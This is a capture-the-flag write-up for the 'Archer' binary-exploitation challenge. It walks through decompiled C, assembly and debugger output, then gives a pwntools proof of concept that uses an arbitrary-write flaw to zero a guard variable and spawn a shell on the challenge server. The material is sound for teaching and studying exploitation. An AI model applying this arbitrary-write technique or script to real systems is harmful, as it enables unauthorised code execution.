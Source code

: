 # Archer
`It's battle time! We're giving you one shot, one kill - choose wisely.`

## Challenge
> TLDR: Input an address so that supplied address + 0x500000 = address of `code` variable

Ghidra's decompiled `main()`
```c
undefined8 main(void)

{
  char *pcVar1;
  char local_d [5];
  
  puts("It\'s battle day archer! Have you got what it takes?");
  printf("Answer [yes/no]: ");
  fflush(stdout);
  fgets(local_d,5,stdin);
  pcVar1 = strstr(local_d,"no");
  if (pcVar1 != (char *)0x0) {
    puts("Battle isn\'t for everyone.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Awesome! Make your shot.");
  makeshot();
  puts("Hope you shot well! This will decide the battle.");
  if (code == 0x13371337) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("WE WON!");
  fflush(stdout);
  system("/bin/sh");
  return 0;
}
```

To spawn a shell, we need to modify the value of `code` variable (located at 0x404068) so that it does not contain 0x13371337 value.

ASM snippet of `makeshot()` 
```
LEA        RAX=>local_10,[RBP + -0x8]
MOV        RSI,RAX
LEA        RDI,[DAT_00402109] 
MOV        EAX,0x0
CALL       <EXTERNAL>::__isoc99_scanf
MOV        RAX,qword ptr [RBP + local_10]
ADD        RAX,0x500000
MOV        qword ptr [RBP + local_10],RAX
MOV        RAX,qword ptr [RBP + local_10]
MOV        qword ptr [RAX],0x0
```

The above ASM shows that the program is vulnerable to arbitrary modification. This is because local_10 is controlled by us. We can provide any address we want and change the value of (user supplied address + 0x500000) address to 0.

The following output shows that we can overwrite the value of `code` variable.
```bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
-snip-
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/kali/Downloads/rarctf/archer
-snip-
```

Idea: Provide an address so that supplied address + 0x500000 = address of `code` variable

Working POC:
```python
from pwn import *

offset = b'FFFFFFFFFFF04068' # 0x404068 - 0x500000
#r = process('./archer')
r = remote('193.57.159.27', 43092)
r.recvuntil(b'no]: ')
r.sendline(b'yes')
r.recvuntil(b'shoot?\n')
r.sendline(offset)
r.interactive()
```